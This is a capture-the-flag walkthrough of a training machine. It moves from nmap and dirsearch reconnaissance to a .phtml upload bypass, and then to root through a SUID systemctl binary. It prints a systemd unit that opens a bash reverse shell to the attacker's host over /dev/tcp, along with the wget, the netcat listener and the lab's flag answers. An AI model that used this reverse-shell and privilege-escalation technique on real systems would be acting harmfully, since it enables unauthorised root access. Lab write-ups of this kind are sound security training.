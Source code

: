 # Reconnaissance

### Scan the box, how many ports are open?
```
# nmap -Pn <machine ip>
...
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
...
```
> *Answer:* 6

### What version of the squid proxy is running on the machine?
```
# nmap -sV <machine ip>
...
3128/tcp open  http-proxy  Squid http proxy 3.5.12
...
```
> *Answer:* 3.5.12

### How many ports will nmap scan if the flag -p-400 was used?
> *Answer:* 400

### Using the nmap flag -n what will it not resolve?
> *Answer:* DNS

### What is the most likely operating system this machine is running?
```
# nmap -sV -O <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* Ubuntu

### What port is the web server running on?
```
# nmap -sV <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* 3333


<br><br><br>
# Locating directories

### What is the directory that has an upload form page?
```
# dirsearch -u "http://<machine ip>:3333/"
...
[14:17:17] 301 -  320B  - /internal  ->  http://10.10.117.6:3333/internal/
...
```
> *Answer:* /internal/

# Compromise the webserver

### Try upload a few file types to the server, what common extension seems to be blocked?
> *Answer:* .php

### Run this attack, what extension is allowed?
> *Answer:* .phtml

### What is the name of the user who manages the webserver?
```
$ cat /etc/passwd
...
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```
> *Answer:* bill

### What is the user flag?
```
$ ls -la /home/bill
...
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
> *Answer:* 8bd7992fbe8a6ad22a63361004cfcedb

# Privilege Escalation

### On the system, search for all SUID files. What file stands out?
```
$ find / -perm -u=s -type f | grep -v "Permission denied"
...
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
> *Answer:* /bin/systemctl

### Become root and get the last flag (/root/root.txt)
```
/var/www/html/root.service
[Unit]
Description=PrivEsc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ip_address_of_my_attackbox/9999 0>&1'

[Install]
wantedBy=multi-user.target
# systemctl restart apache2
$ cd /tmp
$ wget <kali ip>/root.service
...
2021-09-19 04:09:25 (32.9 MB/s) - 'root.service' saved [175/175]
$ /bin/systemctl enable /tmp/root.service
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
$ /bin/systemctl start root.service
# nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.117.6] 57870
bash: cannot set terminal process group (2040): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```
> *Answer:* a58ff8579f0a9270368d33a9966c7fd5


